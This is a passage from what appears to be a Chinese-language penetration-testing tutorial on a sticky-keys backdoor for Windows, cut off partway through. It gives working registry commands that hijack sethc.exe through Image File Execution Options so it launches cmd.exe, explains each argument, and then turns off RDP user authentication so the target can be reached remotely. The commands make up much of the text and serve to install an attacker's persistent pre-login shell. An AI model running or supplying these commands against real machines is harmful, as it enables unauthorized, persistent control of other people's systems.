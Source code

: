 #### [](#112-%E6%96%B0%E6%96%B9%E6%B3%95)1.1.2 新方法

新方法设置粘滞键后门是通过注册表来实现，整体的方法思路就是`通过修改注册表的映像劫持`和`打开其远程桌面`来实现。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"<br>``` |

**命令说明**：reg add 是向注册表添加记录，后面跟的是注册表的位置，这里需要注意的是 HKLM 实际上是 HKEY\_LOCAL\_MACHINE 的缩写。Image File Execution Option 这个目录就是用来设置镜像劫持的，要被劫持的就是命令中的 sethc 粘滞键程序，随后通过 /v 来指定键名，这个键名 debugger 是固定的，然后通过 /t 来指定类型，即 REG\_SZ 字符串类型，最后通过 /d 来指定键的值，即被恶意替换的程序，也就是我们的 cmd。

设置完镜像劫持后就已经有了我们旧方法中直接替换 sethc 程序的效果，但我们为了方便利用，可以开启目标机的远程桌面，这里我们也通过注册表来设置一下，需要设置两个参数。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201207150256.png-water_print](assets/1699409504-db18b1fc475bf61924faca6458c79126.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201207150256.png-water_print")

##### [](#1121-%E5%85%B3%E9%97%AD-rdp-%E7%94%A8%E6%88%B7%E9%89%B4%E5%AE%9A%E9%80%89%E9%A1%B9)1.1.2.1 关闭 RDP 用户鉴定选项

第一个是把远程桌面链接的用户鉴定选项设置为关闭状态，即值为 0，命令行运行以下命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0<br>``` |
